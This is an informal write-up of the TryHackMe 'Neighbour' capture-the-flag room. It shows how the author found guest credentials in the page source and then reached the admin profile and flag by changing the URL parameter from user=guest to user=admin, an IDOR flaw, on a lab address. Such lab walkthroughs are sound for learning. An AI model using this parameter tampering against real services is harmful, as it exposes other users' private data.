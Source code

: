 <h1 align=center>Neighbour</h1>
<h3 align=center>Check out our new cloud service, Authentication Anywhere. Can you find other user's secrets?</h3>

##### Check out our new cloud service, Authentication Anywhere -- log in from anywhere you would like! Users can enter their username and password, for a totally secure login process! You definitely wouldn't be able to find any secrets that other people have in their profile, right?


###### if u see the source code we will get guest account! and it say admin account is limit.
```
username = guest
password = guest
```
```
http://10.10.130.69/profile.php?user=guest
```

###### then after loged in with guest account, again we will se the source code. and we will get this text inside comment tag 
```
<!-- admin account could be vulnerable, need to update -->
```

###### if you notice it say admin account is vulnerable, so maybe the user name is admin? lemm check and also if you notice in the end of url paramameter ?user=guest. now if i change the guest into admin, what will happen?

###### go back into your tryhackme, and it say: Check out similar content on TryHackMe: IDOR. so maybe it's vulnerable to IDOR.
 
# boom!

```http://10.10.130.69/profile.php?user=admin 
```
## => Hi, admin. Welcome to your site. The flag is: 
```flag{66be95c478473d91a5358f2440c7af1f}```
